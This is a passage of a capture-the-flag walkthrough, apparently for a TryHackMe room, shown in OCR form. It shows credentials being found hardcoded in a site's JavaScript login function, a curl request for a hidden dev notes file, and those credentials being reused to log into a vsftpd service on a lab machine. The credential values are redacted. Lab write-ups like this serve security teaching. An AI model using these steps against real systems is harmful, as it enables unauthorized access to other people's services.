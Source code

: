 ```tsx

</html>
```

It’s still here! View the source code of `dev.js` and found this **********Login********** function:

```jsx
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "{HIDDEN}" && password === "{HIDDEN}") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

Use the above creds to login and the application would route to the `devNotes37370.txt` which might contain information about the ************vsftpd************ service that we have logged in failed since the above steps

```tsx
┌──(kali㉿kali)-[~/TryHackMe/TheValley]
└─$ curl http://10.10.231.45/dev1243224123123/devNotes37370.txt -X POST --data "username={HIDDEN}&password={HIDDEN}"
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

Notice on the first line in the note “****************stop reusing credentials****************” → The ftp service is using the same creds with this login form → Try out!

# Gain Access

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ ftp 10.10.231.45 -P 37370
Connected to 10.10.231.45.
220 (vsFTPd 3.0.3)
Name (10.10.231.45:kali): {HIDDEN}
331 Please specify the password.
Password: {HIDDEN}
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
